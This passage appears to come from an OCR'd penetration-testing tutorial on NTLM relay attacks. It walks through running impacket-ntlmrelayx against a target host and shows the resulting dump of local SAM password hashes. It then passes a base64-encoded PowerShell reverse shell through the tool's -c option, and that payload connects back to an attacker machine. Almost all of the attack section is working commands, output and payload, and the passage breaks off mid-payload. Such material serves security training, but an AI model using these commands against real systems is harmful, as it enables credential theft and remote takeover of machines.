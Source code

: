 ```bash
SMB
10.10.110.17 445
WIN7BOX
[+] Added 6 SAM hashes to the
database
```

Then we execute impacket-ntlmrelayx with the option --no-http-server , -
smb2support , and the target machine with the option -t . By default, impacket-
ntlmrelayx will dump the SAM database, but we can execute commands by adding the
option -c .
```bash
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
<SNIP>
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up WCF Server
[*] Servers started, waiting for connections
[*] SMBD-Thread-3: Connection from /[email protected] controlled,
attacking target smb://10.10.110.146
[*] Authenticating against smb://10.10.110.146 as /ADMINISTRATOR SUCCEED
[*] SMBD-Thread-3: Connection from /[email protected] controlled, but
there are no more targets left![*] SMBD-Thread-5: Connection from /[email protected] controlled, but
there are no more targets left!
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xeb0432b45874953711ad55884094e9d4
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd
18041b8fe:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c
0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59
d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:92512f2605074cfc34
1a7f16e5fabf08:::
demouser:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c
089c0:::
test:1001:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8f
e:::
[*] Done dumping SAM hashes for host: 10.10.110.146
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
We can create a PowerShell reverse shell using https://www.revshells.com/, set our machine
IP address, port, and the option Powershell #3 (Base64).
```
```bash
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c
'powershell -e
JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALg
BOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAx
ADYAOAAuADIAMgAwAC4AMQAzADMAIgAsADkAMAAwADEAKQA7ACQAcwB0AHIAZQBhAG0AIAA9AC
AAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0A
XQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbA
BlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAs
ACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7AD
sAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEA
bQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZw
ApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABz
AGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8AC
AATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQA
```